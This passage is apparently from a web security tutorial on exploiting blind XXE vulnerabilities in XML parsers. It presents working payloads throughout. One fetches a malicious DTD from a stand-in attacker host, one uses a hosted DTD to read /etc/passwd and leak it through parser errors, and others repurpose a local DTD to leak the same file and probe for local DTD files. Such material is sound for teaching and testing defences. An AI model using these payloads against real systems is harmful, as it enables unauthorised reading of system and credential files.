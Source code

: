 In the application, the attacker needs to request the malicious DTD and trigger the data exfiltration.

```jsx
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

**Exfiltrating data from error messages using Blind XXE**: You can intentionally create a XML parsing error that may leak the sensitive information that you are trying to retrieve using blind XXE.

First, attacker hosts a malicious DTD.

```jsx
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///idontexist/%file;'>">
%eval;
%exfiltrate;
```

Then, he uses the malicious DTD to trigger the error that leaks contents of a file.

**Exploiting blind XXE by repurposing a local DTD**: You can not exfiltrate data using blind XXE if the server blocks out-of-band connections. Blind XXE is still exploitable if you are able to find a local DTD in the server itself, redefine an entity of the local DTD in your XML payload to intentionally trigger an error that may leak the sensitive data that you want to exfiltrate.

```jsx
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

In the payload above, we are including a local DTD `/usr/local/app/schema.dtd` and then we redefine the `custom_entity` which is already defined in `/usr/local/app/schema.dtd`. In this case, the `custom_entity` entity triggers an error that leaks the contents of `/etc/passwd`.

You can find the local DTD easily. As the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`. You can confirm this by the below payload.

```jsx
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
